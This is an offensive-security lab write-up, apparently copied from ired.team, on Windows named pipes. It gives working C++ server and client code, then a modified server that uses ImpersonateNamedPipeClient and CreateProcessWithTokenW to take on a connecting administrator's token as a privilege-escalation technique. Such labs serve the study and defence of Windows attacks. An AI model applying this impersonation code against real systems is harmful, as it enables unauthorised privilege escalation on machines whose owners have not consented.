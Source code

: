 # Named Pipe Client Impersonation

**This information was copied from** [**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)\*\*\*\*

## Overview

A `pipe` is a block of shared memory that processes can use for communication and data exchange.

`Named Pipes` is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very simar to client/server architecture as notions such as `a named pipe server` and a named `pipe client` exist.

A named pipe server can open a named pipe with some predefined name and then a named pipe client can connect to that pipe via the known name. Once the connection is established, data exchange can begin.

This lab is concerned with a simple PoC code that allows:

* creating a single-threaded dumb named pipe server that will accept one client connection
* named pipe server to write a simple message to the named pipe so that the pipe client can read it

## Code

Below is the PoC for both the server and the client:

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
    LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
    LPVOID pipeBuffer = NULL;
    HANDLE serverPipe;
    DWORD readBytes = 0;
    DWORD readBuffer = 0;
    int err = 0;
    BOOL isPipeConnected;
    BOOL isPipeOpen;
    wchar_t message[] = L"HELL";
    DWORD messageLenght = lstrlen(message) * 2;
    DWORD bytesWritten = 0;

    std::wcout << "Creating named pipe " << pipeName << std::endl;
    serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

    isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
    if (isPipeConnected) {
        std::wcout << "Incoming connection to " << pipeName << std::endl;
    }

    std::wcout << "Sending message: " << message << std::endl;
    WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

    return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
    LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
    HANDLE clientPipe = NULL;
    BOOL isPipeRead = true;
    wchar_t message[MESSAGE_SIZE] = { 0 };
    DWORD bytesRead = 0;

    std::wcout << "Connecting to " << pipeName << std::endl;
    clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    while (isPipeRead) {
        isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
        std::wcout << "Received message: " << message;
    }

    return 0;
}
```
{% endtab %}
{% endtabs %}

## Execution

Below shows the named pipe server and named pipe client working as expected:

![](../../.gitbook/assets/screenshot-from-2019-04-02-23-44-22%20%282%29.png)

Worth nothing that the named pipes communication by default uses SMB protocol:

![](../../.gitbook/assets/screenshot-from-2019-04-04-23-51-48.png)

Checking how the process maintains a handle to our named pipe `mantvydas-first-pipe`:

![](../../.gitbook/assets/screenshot-from-2019-04-02-23-44-22%20%281%29.png)

Similary, we can see the client having an open handle to the named pipe:

![](../../.gitbook/assets/screenshot-from-2019-04-02-23-44-22.png)

We can even see our pipe with powershell:

```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

![](../../.gitbook/assets/screenshot-from-2019-04-02-23-44-22%20%283%29.png)

## Token Impersonation

{% hint style="info" %}
Note that in order to impersonate the token of the client process you need to have \(the server process creating the pipe\) the **`SeImpersonate`** token privilege
{% endhint %}

It is possible for the named pipe server to impersonate the named pipe client's security context by leveraging a `ImpersonateNamedPipeClient` API call which in turn changes the named pipe server's current thread's token with that of the named pipe client's token.

We can update the the named pipe server's code like this to achieve the impersonation - note that modifications are seen in line 25 and below:

```cpp
int main() {
    LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
    LPVOID pipeBuffer = NULL;
    HANDLE serverPipe;
    DWORD readBytes = 0;
    DWORD readBuffer = 0;
    int err = 0;
    BOOL isPipeConnected;
    BOOL isPipeOpen;
    wchar_t message[] = L"HELL";
    DWORD messageLenght = lstrlen(message) * 2;
    DWORD bytesWritten = 0;

    std::wcout << "Creating named pipe " << pipeName << std::endl;
    serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

    isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
    if (isPipeConnected) {
        std::wcout << "Incoming connection to " << pipeName << std::endl;
    }

    std::wcout << "Sending message: " << message << std::endl;
    WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

    std::wcout << "Impersonating the client..." << std::endl;
    ImpersonateNamedPipeClient(serverPipe);
    err = GetLastError();    

    STARTUPINFO    si = {};
    wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
    PROCESS_INFORMATION pi = {};
    HANDLE threadToken = GetCurrentThreadToken();
    CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

    return 0;
}
```

Running the server and connecting to it with the client that is running under administrator@offense.local security context, we can see that the main thread of the named server pipe assumed the token of the named pipe client - offense\administrator, although the PipeServer.exe itself is running under ws01\mantvydas security context. Sounds like a good way to escalate privileges?

